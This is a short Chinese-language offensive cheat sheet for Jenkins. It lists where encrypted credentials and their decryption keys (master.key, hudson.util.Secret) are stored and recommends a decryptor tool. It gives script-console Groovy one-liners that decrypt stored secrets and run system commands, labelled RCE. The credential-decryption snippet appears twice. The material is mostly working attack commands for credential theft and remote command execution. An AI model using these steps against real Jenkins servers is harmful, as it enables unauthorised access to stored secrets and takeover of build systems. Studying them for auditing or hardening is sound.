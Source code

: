 # Jenkins

## Credentials凭据

Jenkins 将加密凭证存储在`credentials.xml`文件或`config.xml`. 要解密它们，您需要`master.key`和`hudson.util.Secret`文件。

所有文件都位于 Jenkins 主目录中：

```
$JENKINS_HOME/credentials.xml 
$JENKINS_HOME/secrets/master.key
$JENKINS_HOME/secrets/hudson.util.Secret
$JENKINS_HOME/jobs/example-folder/config.xml - Possible location
```



可以使用工具https://github.com/hoto/jenkins-credentials-decryptor。

如果有script console，也可以利用script console解密：

```groovy
println(hudson.util.Secret.fromString("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}").getPlainText())

println(hudson.util.Secret.decrypt("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}"))
```



## Script Console

位于`/script`。获得可以执行script console的用户权限的时候，可以在这里执行Groovy脚本：

![image-20231123155434585](README.assets/image-20231123155434585.png)



**RCE：**

```groovy
println "whoami".execute().text
```



**解密凭据：**

```groovy
println(hudson.util.Secret.fromString("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}").getPlainText())

println(hudson.util.Secret.decrypt("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}"))
```



## 参考

https://www.freebuf.com/articles/web/376186.html